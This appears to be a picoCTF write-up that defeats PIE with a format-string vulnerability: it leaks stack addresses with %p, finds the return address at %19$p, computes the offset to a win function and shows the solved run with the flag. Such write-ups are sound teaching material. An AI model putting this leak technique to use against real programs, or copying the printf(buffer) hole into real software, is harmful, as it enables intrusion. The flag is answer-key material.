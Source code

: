 Same thing as before, the executable is PIE (Position Independent Executable). 
```
>> file vuln
vuln: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=89c0ed5ed3766d1b85809c2bef48b6f5f0ef9364, for GNU/Linux 3.2.0, not stripped
```
So we'll need to leak the runtime memory addresses, only this time, we'll need to exploit some kind of vulnerablity. Looking through the code, it gives us an easy way to jump to memory addresses, and a potential format string vulnerability.
```c
printf("Enter your name:");
fgets(buffer, 64, stdin);
printf(buffer);
```

Printing out a bunch of memory addresses using format string's `%p`, we get:
```
Enter your name:%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p 
0x5555555592a1 0xfbad2288 0xaaaa6d5f 0x5555555592dd (nil) 0x7fffffffdde0 0x7ffff7e2da86 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0xa20702520 (nil) 0x219fb04284060a00 0x7fffffffde30 0x555555555441 0x7fffffffded0 
```

All of the values that start with 0x555555555 seem promising, since that usually is the memory region of the text segment, where code in a binary file is stored. Dissassembling the main function to look at potential return pointers, we find:

```asm
0x0000555555555400 <+0>:	endbr64
0x0000555555555404 <+4>:	push   %rbp
0x0000555555555405 <+5>:	mov    %rsp,%rbp
0x0000555555555408 <+8>:	lea    -0x166(%rip),%rsi        # 0x5555555552a9 <segfault_handler>
0x000055555555540f <+15>:	mov    $0xb,%edi
0x0000555555555414 <+20>:	call   0x555555555170 <signal@plt>
0x0000555555555419 <+25>:	mov    0x2bf0(%rip),%rax        # 0x555555558010 <stdout@@GLIBC_2.2.5>
0x0000555555555420 <+32>:	mov    $0x0,%ecx
0x0000555555555425 <+37>:	mov    $0x2,%edx
0x000055555555542a <+42>:	mov    $0x0,%esi
0x000055555555542f <+47>:	mov    %rax,%rdi
0x0000555555555432 <+50>:	call   0x555555555180 <setvbuf@plt>
0x0000555555555437 <+55>:	mov    $0x0,%eax
0x000055555555543c <+60>:	call   0x5555555552c7 <call_functions>
0x0000555555555441 <+65>:	mov    $0x0,%eax
0x0000555555555446 <+70>:	pop    %rbp
0x0000555555555447 <+71>:	ret
```

The 19th value `%19$p` (0x0000555555555441), seems to be the return address after call_functions. This makes since, because as functions are called, the memory address it should return to after it finishes the call is pushed onto the stack. Now that we have a memory address, we can use it to calculate the offset of our win function.

```
Dump of assembler code for function win:
   0x000055555555536a <+0>:	endbr64
```

Subtracting the two values, we get that it is an offset of 215 bytes. With this knowledge, we can crack the exploit. 

```
Enter your name:%19$p
0x5e699fd40441
 enter the address to jump to, ex => 0x12345: 0x5e699fd4036a
You won!
picoCTF{p13_5h0u1dn'7_134k}
```